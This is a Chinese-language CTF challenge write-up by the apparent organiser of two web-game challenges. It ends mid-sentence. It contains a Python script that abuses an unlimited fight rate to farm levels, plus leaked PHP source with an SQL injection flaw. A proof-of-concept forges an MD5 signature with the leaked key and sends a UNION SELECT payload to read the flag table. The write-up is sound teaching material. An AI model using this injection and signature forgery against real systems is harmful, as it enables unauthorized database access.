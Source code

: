 # poker2

------

这次想以游戏安全出一些题目，但是又担心出的太难，大家没做过类似的游戏漏洞挖掘(其实是为了偷懒)，就出了一道战斗频率没有限制的刷级漏洞。这是一个去掉充值功能以外完整的游戏，我去掉了后台对于加速器的检测机制。
&nbsp;&nbsp;&nbsp;&nbsp;提示给的很明显，在flag.php里提示了
```
getFlag when you are at level 100!!!
```
升到一百级就可以拿到flag，但是比赛时间的48个小时正常情况下不吃不喝也是升不到100级的，ctf本来就是一个hack game，所以需要分析他的游戏机制。这个版本的poker2没有战斗频率限制，可以高速无限战斗，脚本很简单，但是还需要分析游戏的细节。众多野怪地图里有一个叫圣诞小屋的挂机地图，伤害低经验高，写好挂机脚本还是很简单的。
```
import requests
import re
from time import sleep
host = "petgame.2017.hctf.io"

headers = {
    "Cookie":"PHPSESSID=c4gn8hav06nsv43bo65tlfkto3"
}
def getFight(host, headers):
    url = "http://"+host+"/function/Fight_Mod.php?p=37&bid=5226&rd=0.5365947475076844"
    req = requests.get(url = url, headers = headers)
    html = req.content
    gid = re.findall("gg=\[.*,(.*)\]",html)
    if len(gid)>0:
        gid = gid[0]
        attack(gid, 4, host, headers)
    else:
        return False

def attack(gid, times, host, headers):
    url = "http://"+host+"/function/FightGate.php?id=1&g="+str(gid)+"&checkwg=checked&rd=0.34966725314993186"
    for i in xrange(0,times-1):
        req = requests.get(url = url, headers = headers)
        html = req.content
        print html

while True:
    getFight(host,headers)
#    sleep(0.1)

#attack(86,url,headers)


```
其实还有其他解法，就是在poker-poker一题中找到注入点，如果有一百级的玩家的密码是弱口令(md5可查)则可以进入其他人账号获得flag。我特意把poker2一题放在第二层，poker-poker在第三层，但是还是有人找到了非预期的注入点(注册处)，提前获取了别人的session，在我删除一百级账号前获得flag。

#poker-poker
这题就比较难受了，看了大家传上来的wp，没有一份是预期解。由于游戏程序比较多，我也没全部看过，就找了一处隐蔽的有回显注入点，但是有一些前置条件。
题目提示是pspt，访问发现跳转到pspt/并且状态403，说明存在pspt目录。
pspt目录下存在robots.txt。
```
Disallow: /pspt/inf/queryUserRole.php
Sitemap: http://domain.com/sitemap.xml
```
直接访问/pspt/inf/queryUserRole.php提示error1。该目录下存在.bak文件，泄漏了源码。
```
<?php
require_once(dirname(dirname(dirname(__FILE__))).'/config/config.game.php');
if (empty($_GET['user_account']) || empty($_GET['valid_date']) || empty($_GET['sign'])) {
    die('error1');
}

$time = time();
if ($_GET['valid_date'] <= $time) {
    die('error2');
}

$encryKey = '7sl+kb9adDAc7gLuv31MeEFPBMJZdRZyAx9eEmXSTui4423hgGfXF1pyM';
$flag = md5($_GET['user_account'].$_GET['valid_date'].$encryKey);
if ($flag != $_GET['sign']) {
    die('error3');
}

$arr = $_pm['mysql'] -> getOneRecord("SELECT id,nickname FROM player WHERE name = '{$_GET['user_account']}'");

if (!is_array($arr)) {
    die('error4');
}

$str = $arr['id'].'&'.$arr['nickname'];
$newstr = iconv('utf8','utf-8',$str);
echo $newstr;
unset($time,$arr,$str);
?>
```
此处泄漏了encryKey，只要有这个encryKey，我们可以根据源码写出注入payload。
poc:
```
import requests
import time
import hashlib
import urllib2

def getMd5(data):
    data = str(data)
    t = hashlib.md5()
    t.update(data)
    return t.hexdigest()

def hack(payload="admin"):
    user_account = urllib2.quote(payload)
    valid_date = int(time.time())+10000
    sign = getSign(user_account, valid_date)
    url = "http://petgame.2017.hctf.io/pspt/inf/queryUserRole.php?user_account="+str(user_account)+"&valid_date="+str(valid_date)+"&sign="+sign
    req = requests.get(url = url)
    print req.content

def getSign(user_account, valid_date):
    user_account = urllib2.unquote(user_account)
    encryKey = '7sl+kb9adDAc7gLuv31MeEFPBMJZdRZyAx9eEmXSTui4423hgGfXF1pyM'
    sign = getMd5(str(user_account) + str(valid_date) + encryKey)
    return sign

hack("adminss' union all select 111,flag from hctf.flag2#")
```
flag就在hctf库里的hctf2表里。
而大家找到的其他注入点


